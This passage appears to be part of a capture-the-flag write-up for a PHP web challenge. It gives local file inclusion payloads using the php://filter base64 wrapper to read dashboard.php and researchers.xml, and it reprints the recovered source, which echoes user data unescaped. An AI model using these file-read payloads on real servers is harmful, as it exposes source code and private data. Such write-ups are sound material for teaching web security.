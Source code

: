  ```php://filter/convert.base64-encode/resource=dev/dashboard.php``` which gives reference researchers.xml
<body>
    <div class="container">
        <div class="dashboard-container">
            <h2>Welcome, <?php echo $_SESSION["username"]; ?></h2>
            <p><strong>Hall of Fame:</strong> John Doe, Emma Martinez</p>
            <h3>Search Cybersecurity Researchers</h3>
            <form action="dashboard.php" method="GET">
                <input type="text" name="searchName" placeholder="Enter researcher's name">
                <button type="submit" name="search">Search</button>
            </form>
            <?php
            if (!empty($searchResults)) {
                // echo $searchResults;
                echo "<h4>Search Results:</h4>";
                foreach ($searchResults as $result) {
                    $name = $result->getElementsByTagName("name")->item(0)->nodeValue;
                    $contributions = $result->getElementsByTagName("contributions")->item(0)->nodeValue;
                    $description = $result->getElementsByTagName("description")->item(0)->nodeValue;
                    $flag = $result->getElementsByTagName("flag")->item(0)->nodeValue;

                    echo "<div class='researcher'>
                              <h4>$name</h4>
                              <p><strong>Contributions:</strong> $contributions</p>
                              <p><strong>Description:</strong> $description</p>
                              <p><strong>Flag:</strong> $flag</p>
                          </div>";
                }
            }
            ?>
            <!-- enitites: researcher, flags -->
        </div>
        <form action="dashboard.php" method="POST">
                <button type="submit" name="logout">Logout</button>
        </form>
    </div>
</body>
</html>
 
 ```
 10. Final payload to access researchers.xml ```php://filter/convert.base64-encode/resource=dev/data/researchers.xml```

 ```xml
 <researchers>
    <researcher>
        <name>John Doe</name>
        <contributions>Web Application Security</contributions>
        <description>John Doe is a cybersecurity researcher with expertise in web application security.</description>
        <flag>None</flag>
    </researcher>
    <researcher>
        <name>Jane Smith</name>
        <contributions>Network Security</contributions>
        <description>Jane Smith is a cybersecurity expert specializing in network security and threat analysis.</description>
        <flag>None</flag>
    </researcher>
    <researcher>
        <name>Alexander Brown</name>
        <contributions>Malware Analysis</contributions>
 ```